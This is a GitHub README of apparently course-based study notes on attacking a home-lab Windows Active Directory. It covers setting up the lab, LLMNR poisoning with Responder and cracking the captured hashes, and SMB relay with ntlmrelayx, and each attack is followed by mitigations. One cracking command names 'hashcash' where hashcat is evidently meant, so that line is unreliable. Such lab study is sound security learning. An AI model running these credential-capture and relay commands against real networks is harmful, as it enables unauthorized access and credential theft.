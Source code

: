 # Windows-Active-Directory-Hacking
The repo contains information on how to hack a windows active directory. REFERENCE: TCM ACADEMY
Active Directory Overview
Physical Active directory components
Logical active directory component
Requirements - One windows server(Windows 2022, two windows 10 Machines)
Setting up the Windows server,
Make sure you rename the windows server (in my case, UNCLE-DC)
promote the windows server to a domain controller by installing,  Active Directory Domain Services from the server manager, you can name your forest as anything but in my case i named it FKEYS.local
also make sure to install Active directory certificate services for other attacks that will considered for other attacks later

Attacking Active Directory: Initial Attack Vectors
1. LLMNR Poisoning

Sudo responder -I eth0 -ldwPv
<img width="696" height="197" alt="image" src="https://github.com/user-attachments/assets/9d0d67af-20d0-4068-b26c-d3cc71c62a3b" />

simulate an event occuring.= - 

hashcash -m 5600 hashes.txt /path/to/wordlist/ 
<img width="1877" height="390" alt="image" src="https://github.com/user-attachments/assets/da11dacb-30ec-435e-963f-008ea1ae7db7" />

LLMNR Mitigation
turn off LLMNR
if LLMNR is needed. It should have strong access control(password)

2. SMB Relay attacks

smb signing disable or not enforced on the target
The relayed user credential must be an admin 

from the responder setting (/etc/responder/Responder.conf), switch off SMB and HTTP flag
then run the command Sudo responder -I eth0 -ldwPv
impacket-ntlmrelayx -tf target.txt -smb2support 
then trigger an event by pointing the attacker IP from the windows PC
<img width="802" height="473" alt="image" src="https://github.com/user-attachments/assets/5f7b7208-57e1-45fe-bdd4-6aa267a79dc0" />

SMB relay attacks mitigation
a. enable smb signing on all devices
b. disable NTLM authentication
c. account tiering
d. Local admin restriction
